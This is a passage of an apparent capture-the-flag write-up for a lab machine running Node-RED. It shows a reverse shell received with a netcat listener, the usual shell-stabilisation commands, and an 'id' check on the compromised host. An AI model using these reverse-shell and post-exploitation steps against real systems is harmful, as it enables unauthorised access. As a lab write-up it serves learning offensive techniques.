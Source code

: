 and i got reverse shell after i click deploy

![alt text](<../assets/images/Screenshot_2025-02-04_17_07_50.png>)

    ➜  Tengu nc -nvlp 9001
    listening on [any] 9001 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.158.55] 49704
    bash: cannot set terminal process group (435): Inappropriate ioctl for device
    bash: no job control in this shell
    nodered_svc@nodered:/opt/nodered$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    <red$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    nodered_svc@nodered:/opt/nodered$ export TERM=xterm
    export TERM=xterm
    nodered_svc@nodered:/opt/nodered$ ^Z
    [1]  + 1160209 suspended  nc -nvlp 9001
    ➜  Tengu stty raw -echo;fg
    [1]  + 1160209 continued  nc -nvlp 9001

    nodered_svc@nodered:/opt/nodered$ id
    uid=1001(nodered_svc) gid=1001(nodered_svc) groups=1001(nodered_svc)

our users home dirs is not look like default so that could be way
